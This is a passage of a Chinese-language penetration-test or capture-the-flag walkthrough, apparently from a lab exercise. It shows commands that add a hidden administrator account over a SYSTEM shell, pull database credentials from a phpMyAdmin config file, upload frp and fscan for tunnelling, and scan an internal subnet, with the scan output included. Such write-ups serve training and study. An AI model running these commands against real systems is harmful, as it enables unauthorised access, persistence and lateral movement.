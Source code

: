 按照这个执行命令

因为为`system`权限，直接添加用户rdp

```
net user Ki1ro 1qaz!QAZ /add
net localgroup Administrators Ki1ro /add
```

![image-20231018183739708](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231018183739708.png)

### flag1

成功连上，获取flag

![image-20231018183903683](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231018183903683.png)

传上`frp`和`fscan`

搭建代理

看路由

```bash
route print
```

没什么有用的东西

通过phpmyadmin的配置文件，看数据库

连接的数据库IP、用户、密码

![image-20231018192056357](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231018192056357.png)

![image-20231018192254403](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231018192254403.png)

```
192.168.11.223
root
iozRj0eB.
```

再用fscan扫

```bash
fscan.exe -h 192.168.11.223/24 -pa 3389,8888
```

```
(icmp) Target 192.168.11.1    is alive
(icmp) Target 192.168.11.210  is alive
(icmp) Target 192.168.11.223  is alive
(icmp) Target 192.168.11.211  is alive
(icmp) Target 192.168.11.200  is alive
(icmp) Target 192.168.11.254  is alive
[*] Icmp alive hosts len is: 6
192.168.11.211:135 open
192.168.11.210:139 open
192.168.11.210:135 open
192.168.11.211:80 open
192.168.11.223:22 open
192.168.11.210:80 open
192.168.11.200:135 open
192.168.11.200:3306 open
192.168.11.211:3306 open
192.168.11.223:3306 open
192.168.11.200:445 open
192.168.11.211:445 open
192.168.11.210:445 open
192.168.11.211:443 open
```